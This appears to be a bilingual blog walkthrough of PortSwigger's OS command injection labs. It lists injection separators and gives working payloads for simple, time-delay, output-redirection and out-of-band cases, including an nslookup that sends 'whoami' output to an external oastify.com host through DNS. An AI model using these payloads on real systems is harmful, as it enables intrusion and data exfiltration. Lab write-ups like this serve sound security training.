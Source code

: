 ```yaml
---
layout: single
title: OS Command Injection - PortSwigger
excerpt: "All OS Command Injection labs of PortSwigger."
date: 2025-09-24
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - OS Command Injection
---
```



## Identification

```
 &&
 &
 ||
 |
 ;
 `
 '
 "
 0x0a
 \n
```

## Inyección de comandos, caso simple || OS command injection, simple case

![](Pasted%20image%2020250924172159.png)

> By corrupting the query, we see that we are within the context of command execution.

![](Pasted%20image%2020250924172249.png)

> We concatenate our command using a ;. The underlying command would look like this:

```bash
sh -c bash /home/peter-GPnOhF/stockreport.sh 1 1;whoami
```

- Injection 

```bash
;whoami
```

## Inyección ciega con retrasos temporales || Blind OS command injection with time delays

![](Pasted%20image%2020250924180005.png)

> By using backticks, we execute a command to check if it is vulnerable.

- Injection

```bash
`sleep 10`
```

## Inyección ciega con redirección de salida || Blind OS command injection with output redirection

![](Pasted%20image%2020250924183354.png)

> First, we detect command injection using a sleep.

![](Pasted%20image%2020250924183137.png)

![](Pasted%20image%2020250924183152.png)

> We send the output to a file inside the images directory `/var/www/images/`.

- Injection

```bash
`whoami` >> /var/www/images/test.txt
```

## Inyección ciega con interacción OOB || Blind OS command injection with out-of-band interaction

![](Pasted%20image%2020250924184546.png)

![](Pasted%20image%2020250924184559.png)

> In this case, we cannot force a delay in the response; however, we can detect the vulnerability via a DNS request.

- Injection

```bash
`nslookup 6ahsp7n9bzragcunrr7b18q6gxmpafy4.oastify.com`
```

## Inyección ciega con exfiltración vía interacción OOB || Blind OS command injection with out-of-band data exfiltration

![](Pasted%20image%2020250924184849.png)

![](Pasted%20image%2020250924184859.png)

> Just like the previous lab, we detect the vulnerability through a DNS request.

![](Pasted%20image%2020250924185022.png)

![](Pasted%20image%2020250924185053.png)

> By using the bash $() operator, we make a request to our domain with the output of the whoami command as a subdomain.

- Injection

```bash
`nslookup $(whoami).c5iykdif65mgbiptmx2hwelcb3hw5mtb.oastify.com`
```